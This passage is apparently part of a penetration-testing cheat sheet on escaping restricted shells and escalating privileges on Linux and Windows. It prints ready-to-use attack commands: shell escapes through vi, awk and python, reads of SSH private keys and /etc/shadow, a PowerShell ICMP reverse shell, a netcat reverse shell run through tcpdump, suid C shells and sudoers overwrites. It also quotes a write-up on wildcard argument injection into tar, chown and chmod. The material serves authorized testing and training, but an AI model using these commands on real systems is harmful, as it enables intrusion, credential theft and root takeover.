* vi -> :!/bin/sh : Refer `Breaking out of Jail : Restricted Shell <http://airnesstheman.blogspot.in/2011/05/breaking-out-of-jail-restricted-shell.html>`_ and `Restricted Accounts and Vim Tricks in Linux and Unix <http://linuxshellaccount.blogspot.in/2008/05/restricted-accounts-and-vim-tricks-in.html>`_ 
* scp -S /tmp/getMeOut.sh x y : Refer `Breaking out of rbash using scp <http://pentestmonkey.net/blog/rbash-scp>`_ 
* awk 'BEGIN {system("/bin/sh")}'
* find / -name someName -exec /bin/sh \;
* tee

 :: 

  echo "Your evil code" | tee script.sh

* Invoke shell thru scripting language

 * Python

  ::

   python -c 'import os; os.system("/bin/bash")

 * Perl

  ::

   perl -e 'exec "/bin/sh";'

SSHing from outside
^^^^^^^^^^^^^^^^^^^
* Use SSH on your machine to execute commands before the remote shell is loaded:

 ::

  ssh username@IP -t "/bin/sh"

* Start the remote shell without loading "rc" profile ( where most of the limitations are often configured)
 
 ::

  ssh username@IP -t "bash --noprofile"






Gather information from files
-----------------------------

In case of LFI or unprivileged shell, gathering information could be very useful. Mostly taken from `g0tmi1k Linux Privilege Escalation Blog <https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/>`_

Operating System
^^^^^^^^^^^^^^^^
::

  cat /etc/issue
  cat /etc/*-release
    cat /etc/lsb-release      # Debian based
    cat /etc/redhat-release   # Redhat based

/Proc Variables
^^^^^^^^^^^^^^^
::

 /proc/sched_debug	This is usually enabled on newer systems, such as RHEL 6.  It provides information as to what process is running on which cpu.  This can be handy to get a list of processes and their PID number.
 /proc/mounts		Provides a list of mounted file systems.  Can be used to determine where other interesting files might be located
 /proc/net/arp		Shows the ARP table.  This is one way to find out IP addresses for other internal servers.
 /proc/net/route	Shows the routing table information.
 /proc/net/tcp 
 /proc/net/udp  	Provides a list of active connections.  Can be used to determine what ports are listening on the server
 /proc/net/fib_trie	This is used for route caching.  This can also be used to determine local IPs, as well as gain a better understanding of the target's networking structure
 /proc/version	        Shows the kernel version.  This can be used to help determine the OS running and the last time it's been fully updated.

Each process also has its own set of attributes.  If we have the PID number and access to that process, then we can obtain some useful information about it, such as its environmental variables and any command line options that were run.  Sometimes these include passwords.  Linux also has a special proc directory called self which can be used to query information about the current process without having to know it's PID.

::

 /proc/[PID]/cmdline	Lists everything that was used to invoke the process. This sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/environ	Lists all the environment variables that were set when the process was invoked.  This also sometimes contains useful paths to configuration files as well as usernames and passwords.
 /proc/[PID]/cwd	Points to the current working directory of the process.  This may be useful if you don't know the absolute path to a configuration file.
 /proc/[PID]/fd/[#]	Provides access to the file descriptors being used.  In some cases this can be used to read files that are opened by a process.

The information about Proc variables has been taken from `Directory Traversal, File Inclusion, and The Proc File System <https://blog.netspi.com/directory-traversal-file-inclusion-proc-file-system/>`_

Environment Variables
^^^^^^^^^^^^^^^^^^^^^

::

 cat /etc/profile
 cat /etc/bashrc
 cat ~/.bash_profile
 cat ~/.bashrc
 cat ~/.bash_logout

Configuration Files
^^^^^^^^^^^^^^^^^^^

* Apache Web Server : Helps in figuring out the DocumentRoot where does your webserver files are?

 ::

   /etc/apache2/apache2.conf
   /etc/apache2/sites-enabled/000-default 

User History
^^^^^^^^^^^^

::

  ~/.bash_history
  ~/.nano_history
  ~/.atftp_history
  ~/.mysql_history
  ~/.php_history
  ~/.viminfo

Private SSH Keys / SSH Configuration
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

  ~/.ssh/authorized_keys : specifies the SSH keys that can be used for logging into the user account 
  ~/.ssh/identity.pub
  ~/.ssh/identity
  ~/.ssh/id_rsa.pub
  ~/.ssh/id_rsa
  ~/.ssh/id_dsa.pub
  ~/.ssh/id_dsa
  /etc/ssh/ssh_config  : OpenSSH SSH client configuration files
  /etc/ssh/sshd_config : OpenSSH SSH daemon configuration file


.. _unprivileged-shell-to-privileged-shell:

Unprivileged shell to privileged shell
======================================

Probably, at this point of time, we would have unprivileged shell of user www-data. If you are on Windows, there are particular set of steps. If you are on linux, it would be a good idea to first check privilege escalation techniques from g0tm1lk blog such as if there are any binary executable with SUID bits, if there are any cron jobs running with root permissions. 

If you have become a normal user of which you have a password, it would be a good idea to check sudo -l to check if there are any executables you have permission to run.

Windows Privilege Escalation
----------------------------

If you have a meterpreter from a windows box, probably, the first thing would be to utilize

Metasploit Local Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Metasploit local_exploit_suggester : The module suggests local meterpreter exploits that can be used. The exploits are suggested based on the architecture and platform that the user has a shell opened as well as the available exploits in meterpreter.

  .. Note :: It is utmost important that the meterpreter should be of the same architecture as your target machine, otherwise local exploits may fail. For example. if you have target as windows 64-bit machine, you should have 64-bit meterpreter.

Sherlock Powershell Script
^^^^^^^^^^^^^^^^^^^^^^^^^^

`Sherlock <https://github.com/rasta-mouse/Sherlock>`_ PowerShell script by rastamouse to quickly find missing software patches for local privilege escalation vulnerabilities. If the Metasploit local_exploit_suggester didn't resulted in     any exploits. Probably, try Sherlock Powershell script to see if there any vuln which can be exploited.

Windows Exploit Suggestor
^^^^^^^^^^^^^^^^^^^^^^^^^
`Windows Exploit Suggestor <https://github.com/GDSSecurity/Windows-Exploit-Suggester>`_ : This tool compares a targets patch levels against the Microsoft vulnerability database in order to detect potential missing patches on the target. It also notifies the user if there are public exploits and Metasploit modules available for the missing bulletins. Just copy the systeminfo information from the windows OS and compare the database.

If we are getting the below error on running local exploits of getuid in meterpreter

::

 [-] Exploit failed: Rex::Post::Meterpreter::RequestError stdapi_sys_config_getuid: Operation failed: Access is denied.

Possibly, migrate into a new process using post/windows/manage/migrate

ICMP Shell
^^^^^^^^^^

Sometimes, inbound and outbound traffic from any port is disallowed and only ICMP traffic is allowed. In that case, we can use `Simple reverse ICMP Shell <https://github.com/inquisb/icmpsh>`_ However, this requires the executable to be present on the system. There's a powershell version of `ICMP Reverse Shell <https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellIcmp.ps1>`_ Sometimes, probably, we can execute powershell code on the machine. In that case, we can use the one-liner powershell code to execute the shell.

::

 powershell -nop -c "$ip='your_ip'; $ic = New-Object System.Net.NetworkInformation.Ping; $po = New-Object System.Net.NetworkInformation.PingOptions; $po.DontFragment = $true; $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes('OK'), $po); while ($true) { $ry = $ic.Send($ip,60*1000, ([text.encoding]::ASCII).GetBytes(''), $po); if ($ry.Buffer) { $rs = ([text.encoding]::ASCII).GetString($ry.Buffer); $rt = (Invoke-Expression -Command $rs | Out-String ); $ic.Send($ip,60*1000,([text.encoding]::ASCII).GetBytes($rt),$po); } }"


The above code is basically a reduced version of the powershell version of ICMP and have a limited buffer (which means commands whose output is greater than the buffer, won't be displayed!). Now, there's a painful way of transferring files to the victim system which is

* Convert the file/ code which needs to be transferred in to base64. (If possible, remove all the uncessesary code/ comments, this would help us to reduce the length of the base64)
* Utilize the `Add-Content cmdlet <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/add-content?view=powershell-5.1>`_ to transfer the file to the victim system. Do, remember to transfer the data in chunks as we have limited buffer! Probably, we have to run the below command twice or thrice to transfer the whole base64-encoded chunk.
 
 ::
  
  Add-Content <filename> "Base64 encoded content"

* Once the base64-encoded data is transferred, we can utilize `certutil <https://technet.microsoft.com/en-us/library/cc732443(v=ws.11).aspx>`_ from Microsoft to decode the base64-encoded to normal file.

 ::

  certutil <-decode/ -encode> <input file> <output file>
  -decode Decode a Base64-encoded file
  -encode Encode a file to Base64

* Now, we can execute the file (assuming powershell ps1 file) to get the full powershell ICMP reverse shell with buffer managment so, we would be able to get full output of the commands.

* Now, most of the time after getting the intial shell, probably, we would have figured out user credentials ( let's say from www-data or iisapppool user to normal/ admin user credentials. ) At this point of time, we can use the below code to create a PSCredential.

 ::

  $username = 'UsernameHere';
  $password = 'PasswordHere';
  $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
  $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword 

* Once, we have created a PSCredential, we can use `Invoke-Command <https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/invoke-command>`_  to execute command as that user.

  ::
   
   Invoke-Command -ComputerName localhost -PSCredential $credential -ScriptBlock {Command to be executed}
   -ComputerName localhost is required as the code is to be executed on localhost, without -ComputerName, InvokeCommand doesn't work.

* Possibly, we can execute the ICMP Shell code to get the shell as the new user.

* One problem, which we gonna face is, when we are running ICMP Shell with different users for example, first with IISWebpool, then with User1, then with user2, we would get multple times IISWebpool as that powershell process (on UDP) is still running. One way to this is Just before launching a new ICMP shell as a different user. 
  
  * Check powershell processes with Show-Process

   ::

    Show-Process -Name *power* "
  
  *  Note down  the PID 
  * Execute shell as the different user 
  * Stop-Process the previous PID






Privilege escalation from g0tm1lk blog
--------------------------------------

Once, we have got the unprivileged shell, it is very important to check the below things

* Are there any binaries with Sticky, suid, guid.
* Are there any world-writable folders, files.
* Are there any world-execuable files.
* Which are the files owned by nobody ( No user )
* Which are the files which are owned by a particular user but are not present in their home directory. (Mostly, the users have files and folders in /home directory. However, that's not always the case.)
* What are the processes running on the machines? (ps aux). Remember, If something like knockd is running, we would come to know that Port Knocking is required.
* What are the packages installed? (dpkg -l). Maybe some vulnerable application is installed ready to be exploited (For example: chkroot version 0.49).
* What are the services running? (netstat -ln)


What "Advanced Linux File Permissions" are used?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sticky bits, SUID & GUID

::

   find / -perm -1000 -type d 2>/dev/null   # Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.
   find / -perm -g=s -type f 2>/dev/null    # SGID (chmod 2000) - run as the group, not the user who started it.
   find / -perm -u=s -type f 2>/dev/null    # SUID (chmod 4000) - run as the owner, not the user who started it.

   find / -perm -g=s -o -perm -u=s -type f 2>/dev/null    # SGID or SUID
   for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done    # Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)

   # find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)
    find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null
 
Where can written to and executed from?
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

A few 'common' places: /tmp, /var/tmp, /dev/shm

::

  find / -writable -type d 2>/dev/null      # world-writeable folders
  find / -perm -222 -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type d 2>/dev/null     # world-writeable folders
  find / -perm -o w -type f 2>/dev/null     # world-writeable files

  find / -perm -o x -type d 2>/dev/null     # world-executable folders
  find / -perm -o x -type f 2>/dev/null     # world-executable files

  find / \( -perm -o w -perm -o x \) -type d 2>/dev/null   # world-writeable & executable folders

* If the below files are world writable, we could do privilege escalation.

 * /etc/passwd 

  * Passwords are normally stored in /etc/shadow, which is not readable by users. However, historically, they were stored in the world-readable file /etc/passwd along with all account information. 
  * For backward compatibility, if a password hash is present in the second column in /etc/passwd, it takes precedence over the one in /etc/shadow. 
  * Also, an empty second field in /etc/passwd means that the account has no password, i.e. anybody can log in without a password (used for guest accounts). This is sometimes disabled. 
  * If passwordless accounts are disabled, you can put the hash of a password of your choice. You can use the crypt function to generate password hashes, for example

   ::
    
      perl -le 'print crypt("foo", "aa")' to set the password to foo. 

  * It's possible to gain root access even if you can only append to /etc/passwd and not overwrite the contents. That's because it's possible to have multiple entries for the same user, as long as they have different names — users are identified by their ID, not by their name, and the defining feature of the root account is not its name but the fact that it has user ID 0. So you can create an alternate root account by appending a line that declares an account with another name, a password of your choice and user ID 0

Any "problem" files?
^^^^^^^^^^^^^^^^^^^^

Word-writeable, "nobody" files

::

  find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print   # world-writeable files
  find /dir -xdev \( -nouser -o -nogroup \) -print   # Noowner files

Find files/ folder owned by the user
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

After compromising the machine with an unprivileged shell, /home would contains the users present on the system. Also, viewable by checking /etc/passwd. Many times, we do want to see if there are any files owned by those users outside their home directory.

::

  find / -user username 2> /dev/null
  find / -group groupname 2> /dev/null


.. Tip :: Find files by wheel/ adm users or the users in the home directory.

Execution of binary from Relative location than Absolute
--------------------------------------------------------
If we figure out that a suid binary is running with relative locations ( for example let's say backjob is running "id" and "scp /tmp/special ron@ton.home" )( figured out by running strings on the binary ). The problem with this is, that it’s trying to execute a file/script/program on a RELATIVE location (opposed to an ABSOLUTE location like /sbin would be). And we will now exploit this to become root.

so we can create a file in temp:

::

  echo "bash -i" >> /tmp/id 

  or 

  cp /bin/sh /tmp/id

:: 

  www-data@yummy:/tmp$ cp /bin/sh id
  www-data@yummy:/tmp$ export PATH=/tmp:$PATH
  www-data@yummy:/tmp$ which id
  /tmp/id
  www-data@yummy:/tmp$ /opt/backjob
  whoami
  root
  # /usr/bin/id
  uid=0(root) gid=0(root) groups=0(root),33(www-data)

By changing the PATH prior executing the vulnerable suid binary (i.e. the location, where Linux is searching for the relative located file), we force the system to look first into /tmp when searching for “scp” or "id" . So the chain of commands is: /opt/backjob switches user context to root (as it is suid) and tries to run “scp …” -> Linux searches the filesystem according to its path (here: in /tmp first) -> Our malicious /tmp/scp gets found and executed as root -> A new bash opens with root privileges.

If we execute a binary without specifying an absolute paths, it goes in order of your $PATH variable. By default, it's something like:

::

  /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

It is important to see .bash_profile file which contains the $PATH

Symlink Creation
----------------

Multiple time, we would find that a suid binary belonging to another user is authorized to read a particular file. For example Let's say there's a suid binary called readExampleConf which can read a file named example.conf as a suid user. This binary can be tricked into reading any other file by creating a Symlink or a softlink. For example if we want to read /etc/shadow file which can be read by suid user. we can do

::

 ln -s /etc/shadow /home/xxxxxx/example.conf
 ln -s /home/xxx2/.ssh/id_rsa /home/xxxxxxx/example.conf

Now, when we try to read example.conf file, we would be able to read the file for which we created the symlink

::

 readExampleConf /home/xxxxxxx/example.conf
 <Contents of shadow or id_rsa



MySQL Privileged Escalation
---------------------------

If mysql ( version 4.x, 5.x ) process is running as root and we do have the mysql root password and we are an unprivileged user, we can utilize `User-Defined Function (UDF) Dynamic Library Exploit <http://www.0xdeadbeef.info/exploits/raptor_udf.c>`_ . A blog named `Gaining a root shell using mysql user defined functions and setuid binaries <https://infamoussyn.com/2014/07/11/gaining-a-root-shell-using-mysql-user-defined-functions-and-setuid-binaries/>`_  

More Information
^^^^^^^^^^^^^^^^

* The MySQL service should really not run as root. The service and all mysql directories should be run and accessible from another account - mysql as an example.

* When MySQL is initialized, it creates a master account (root by default) that has all privileges to all databases on MySQL. This root account differs from the system root account, although it might still have the same password due to default install steps offered by MySQL.

* Commands can be executed inside MySQL, however, commands are executed as the current logged in user.

::

  mysql> \! sh

Cron.d
------

Check cron.d and see if any script is executed as root at any time and is world writeable. If so, you can use to setuid a binary with /bin/bash and use it to get root.

Suid.c

::

  int main(void) {
  setgid(0); setuid(0);
  execl(“/bin/sh”,”sh”,0); }

or

::

 int main(void) {
 setgid(0); setuid(0);
 system("/bin/bash"); }



SUDO -l Permissions
-------------------

Let's see which executables have permission to run as sudo, We have collated the different methods to get a shell if the below applications are suid: nmap, tee, tcpdump, find

nmap suid
^^^^^^^^^

:: 

  nmap --script <(echo 'require "os".execute "/bin/sh"')

or

:: 

  nmap --interactive

tee suid
^^^^^^^^

If tee is suid: tee is used to read input and then write it to output and files. That means we can use tee to read our own commands and add them to any_script.sh, which can then be run as root by a user. If some script is run as root, you may also run. For example, let's say tidy.sh is executed as root on the server, we can write the below code in temp.sh

:: 

  temp.sh
  echo "example_user ALL=(ALL) ALL" > /etc/sudoers 

or 

::

  chmod +w /etc/sudoers to add write properties to sudoers file to do the above

and then

:: 

  cat temp.sh | sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh

which will add contents of temp.sh to tidyup.sh. ( Assuming tidyup.sh is running as root by crontab )

tcpdump
^^^^^^^

The “-z postrotate-command” option (introduced in tcpdump version 4.0.0).

Create a temp.sh ( which contains the commands to executed as root )

:: 

  id
  /bin/nc 192.168.110.1 4444 -e /bin/bash

Execute the command

:: 

  sudo tcpdump -i eth0 -w /dev/null -W 1 -G 1 -z ./temp.sh -Z root

where
 
:: 

  -C file_size : Before  writing a raw packet to a savefile, check whether the file is currently larger than file_size and, if so, close the current savefile and open a new one.  Savefiles after the first savefile will have the name specified with the -w flag, with a number after it, starting at 1 and continuing upward.  The units of file_size are millions of bytes (1,000,000 bytes, not 1,048,576 bytes).

  -W Used  in conjunction with the -C option, this will limit the number of files created to the specified number, and begin overwriting files from the beginning, thus creating a 'rotating' buffer.  In addition, it will name the files with enough leading 0s to support the maximum number of files, allowing them to sort correctly. Used in conjunction with the -G option, this will limit the number of rotated dump files that get created, exiting with status 0 when reaching the limit. If used with -C as well, the behavior will result in cyclical files per timeslice.

  -z postrotate-command Used in conjunction with the -C or -G options, this will make tcpdump run " postrotate-command file " where file is the savefile being closed after each rotation. For example, specifying -z gzip or -z bzip will compress each savefile using gzip or bzip2.

  Note that tcpdump will run the command in parallel to the capture, using the lowest priority so that this doesn't disturb the capture process.

  And in case you would like to use a command that itself takes flags or different arguments, you can always write a shell script that will take the savefile name as the only argument, make the flags &  arguments arrangements and execute the command that you want.

   -Z user 
   --relinquish-privileges=user If tcpdump is running as root, after opening the capture device or input savefile, but before opening any savefiles for output, change the user ID to user and the group ID to the primary group of user.

   This behavior can also be enabled by default at compile time.


find
^^^^

If find is suid, we can use

::

 touch foo
 find foo -exec whoami \;

Here, the foo file ( a blank file ) is created using the touch command as the -exec parameter of the find command will execute the given command for every file that it finds, so by using “find foo” it is ensured they only execute once. The above command will be executed as root.

HollyGrace has mentioned this in `Linux PrivEsc: Abusing SUID <https://www.gracefulsecurity.com/linux-privesc-abusing-suid/>`_




More can be learn `How-I-got-root-with-sudo <https://www.securusglobal.com/community/2014/03/17/how-i-got-root-with-sudo/>`_.


Unix Wildcards
--------------

The below text is directly from the `DefenseCode Unix WildCards Gone Wild <https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt>`_.

Chown file reference trick (file owner hijacking)
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

First really interesting target I've stumbled across is 'chown'. Let's say that we have some publicly writeable directory with bunch of PHP files in there, and root user wants to change owner of all PHP files to 'nobody'. Pay attention to the file owners in the following files list.

:: 

  [root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user', and root user will now change that to 'nobody'.

:: 

   [root@defensecode public]# chown -R nobody:nobody \*.php

Let's see who owns files now...

:: 

  root@defensecode public]# ls -al
  total 52
  drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
  drwx------. 22 user user 4096 Oct 28 17:34 ..
  -rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
  -rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
  -rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
  -rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
  -rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
  -rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
  -rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
  -rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
  -rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
  -rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
  -rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
  -rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php

Something is not right. What happened? Somebody got drunk here. Superuser tried to change files owner to the user:group 'nobody', but somehow, all files are owned by the user 'leon' now. If we take closer look, this directory previously contained just the following two files created and owned by the user 'leon'.

:: 

  -rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
  -rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php

Thing is that wildcard character used in 'chown' command line took arbitrary '--reference=.drf.php' file and passed it to the chown command at the command line as an option.

Let's check chown manual page (man chown):

:: 

   --reference=RFILE     use RFILE's owner and group rather than specifying OWNER:GROUP values

So in this case, '--reference' option to 'chown' will override 'nobody:nobody' specified as the root, and new owner of files in this directory will be exactly same as the owner of '.drf.php', which is in this case user 'leon'. Just for the record, '.drf' is short for Dummy Reference File. :)

To conclude, reference option can be abused to change ownership of files to some arbitrary user. If we set some other file as argument	to the --reference option, file that's owned by some other user, not 'leon', in that case he would become owner of all files in this directory. With this simple chown parameter pollution, we can trick root into changing ownership of files to arbitrary users, and practically "hijack" files that are of interest to us.

Even more, if user 'leon' previously created a symbolic link in that directory that points to let's say /etc/shadow, ownership of /etc/shadow would also be changed to the user 'leon'.


Chmod file reference trick
^^^^^^^^^^^^^^^^^^^^^^^^^^

Another interesting attack vector similar to previously described 'chown' attack is 'chmod'. Chmod also has --reference option that can be abused to specify arbitrary permissions on files selected with asterisk wildcard. Chmod manual page (man chmod):

:: 

  --reference=RFILE    :   use RFILE's mode instead of MODE values

Example is presented below.

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php

Superuser will now try to set mode 000 on all files.

:: 

  [root@defensecode public]# chmod 000 *

Let's check permissions on files...

:: 

    [root@defensecode public]# ls -al
    total 68
    drwxrwxrwx.  2 user user  4096 Oct 29 00:41 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxrwxrwx.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxrwxrwx.  1 user user    34 Oct 28 17:47 ado.php
    -rwxrwxrwx.  1 user user   187 Oct 28 17:44 db.php
    -rwxrwxrwx.  1 user user   201 Oct 28 17:43 download.php
    -rwxrwxrwx.  1 leon leon     0 Oct 29 00:40 .drf.php
    -rwxrwxrwx.  1 user user    43 Oct 28 17:35 file1.php
    -rwxrwxrwx.  1 user user    56 Oct 28 17:47 footer.php
    -rwxrwxrwx.  1 user user   357 Oct 28 17:36 global.php
    -rwxrwxrwx.  1 user user   225 Oct 28 17:37 header.php
    -rwxrwxrwx.  1 user user   117 Oct 28 17:36 inc.php
    -rwxrwxrwx.  1 user user   111 Oct 28 17:38 index.php
    -rw-r--r--.  1 leon leon     0 Oct 29 00:41 --reference=.drf.php
    -rwxrwxrwx.  1 user user    94 Oct 28 17:38 script.php

What happened? Instead of 000, all files are now set to mode 777 because of the '--reference' option supplied through file name..Once again,file .drf.php owned by user 'leon' with mode 777 was used as reference file and since --reference option is supplied, all files will be set to mode 777. Beside just --reference option, attacker can also create another file with '-R' filename, to change file permissions on files in	all subdirectories recursively.
   

Tar arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
  
Previous example is nice example of file ownership hijacking. Now, let's go to even more interesting stuff like arbitrary command execution. 		Tar is very common unix program for creating and extracting archives. Common usage for lets say creating archives is:

:: 

    [root@defensecode public]# tar cvvf archive.tar *

So, what's the problem with 'tar'? Thing is that tar has many options,and among them, there some pretty interesting options from arbitrary parameter injection point of view. Let's check tar manual page (man tar):

:: 

    --checkpoint[=NUMBER]      : display progress messages every NUMBERth record (default 10)
    --checkpoint-action=ACTION : execute ACTION on each checkpoint

There is '--checkpoint-action' option, that will specify program which will be executed when checkpoint is reached. Basically, that allows us arbitrary command execution.

Check the following directory:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Oct 28 19:34 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rw-rw-r--.  1 user user 20480 Oct 28 19:13 admin.php
    -rw-rw-r--.  1 user user    34 Oct 28 17:47 ado.php
    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rw-rw-r--.  1 user user   187 Oct 28 17:44 db.php
    -rw-rw-r--.  1 user user   201 Oct 28 17:43 download.php
    -rw-rw-r--.  1 user user    43 Oct 28 17:35 file1.php
    -rw-rw-r--.  1 user user    56 Oct 28 17:47 footer.php
    -rw-rw-r--.  1 user user   357 Oct 28 17:36 global.php
    -rw-rw-r--.  1 user user   225 Oct 28 17:37 header.php
    -rw-rw-r--.  1 user user   117 Oct 28 17:36 inc.php
    -rw-rw-r--.  1 user user   111 Oct 28 17:38 index.php
    -rw-rw-r--.  1 user user    94 Oct 28 17:38 script.php
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

Now, for example, root user wants to create archive of all files in current directory.

:: 

    [root@defensecode public]# tar cf archive.tar *
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023
    uid=0(root) gid=0(root) groups=0(root) context=unconfined_u:unconfined_r:unconfined_t:s0-s0:c0.c1023

Boom! What happened? /usr/bin/id command gets executed! We've just achieved arbitrary command execution under root privileges. Once again, there are few files created by user 'leon'.

:: 

    -rw-r--r--.  1 leon leon     0 Oct 28 19:19 --checkpoint=1
    -rw-r--r--.  1 leon leon     0 Oct 28 19:17 --checkpoint-action=exec=sh shell.sh
    -rwxr-xr-x.  1 leon leon    12 Oct 28 19:17 shell.sh

  Options '--checkpoint=1' and '--checkpoint-action=exec=sh shell.sh' are passed to the 'tar' program as command line options. Basically, they command tar to execute shell.sh shell script upon the execution.

:: 

    [root@defensecode public]# cat shell.sh
    /usr/bin/id

So, with this tar argument pollution, we can basically execute arbitrary commands with privileges of the user that runs tar. As demonstrated on the 'root' account above.
   

Rsync arbitrary command execution
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Rsync is "a fast, versatile, remote (and local) file-copying tool", that is very common on Unix systems. If we check 'rsync' manual page, we can again find options that can be abused for arbitrary command execution.

Rsync manual: "You use rsync in the same way you use rcp. You must specify a source and a destination, one of which may be remote."

Interesting rsync option from manual:

:: 

  -e, --rsh=COMMAND       specify the remote shell to use
  --rsync-path=PROGRAM    specify the rsync to run on remote machine			

Let's abuse one example directly from the 'rsync' manual page. Following example will copy all C files in local directory to a remote host 'foo' in '/src' directory.

:: 

  # rsync -t *.c foo:src/


Directory content:

:: 

    [root@defensecode public]# ls -al
    total 72
    drwxrwxrwx.  2 user user  4096 Mar 28 04:47 .
    drwx------. 24 user user  4096 Oct 28 18:32 ..
    -rwxr-xr-x.  1 user user 20480 Oct 28 19:13 admin.php
    -rwxr-xr-x.  1 user user    34 Oct 28 17:47 ado.php
    -rwxr-xr-x.  1 user user   187 Oct 28 17:44 db.php
    -rwxr-xr-x.  1 user user   201 Oct 28 17:43 download.php
    -rw-r--r--.  1 leon leon     0 Mar 28 04:45 -e sh shell.c
    -rwxr-xr-x.  1 user user    43 Oct 28 17:35 file1.php
    -rwxr-xr-x.  1 user user    56 Oct 28 17:47 footer.php
    -rwxr-xr-x.  1 user user   357 Oct 28 17:36 global.php
